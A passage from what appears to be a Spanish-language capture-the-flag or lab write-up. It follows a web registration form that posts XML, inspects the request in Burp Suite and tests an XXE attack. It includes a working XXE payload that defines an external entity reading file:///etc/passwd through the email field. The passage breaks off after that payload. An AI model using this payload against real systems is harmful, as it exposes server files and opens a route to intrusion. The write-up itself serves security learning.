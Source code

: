 ```
User: test
Pass: test
```

Veremos que pone esto:

```
test is already registered!
```

Pero no pasa nada mas, vamos abrir `BurpSuite` y capturar la peticion del registro a ver que esta pasando por dentro, pero si inspeccionamos el codigo antes confirmamos esto:

```html
<input type="submit" value="Register" onclick="XMLFunction()">
```

## XXE (RCE)

Vemos que esta llamando a una funcion que tiene que ver con `XML` por lo que tiene toda la pinta de que podremos realizar un `XXE`, vamos a capturar la peticion.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-20 090437.png" alt=""><figcaption></figcaption></figure>

Veremos que efectivamente esta utilizando `XML` por lo que vamos a probar a realizar un `XXE` a ver si se ejecuta codigo de forma remota para realizar un `RCE`.

Probaremos esta estructura tipica de un `XXE`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<details>
	<email>
		&xxe;
	</email>
	<password>
		test
	</password>
</details>
```
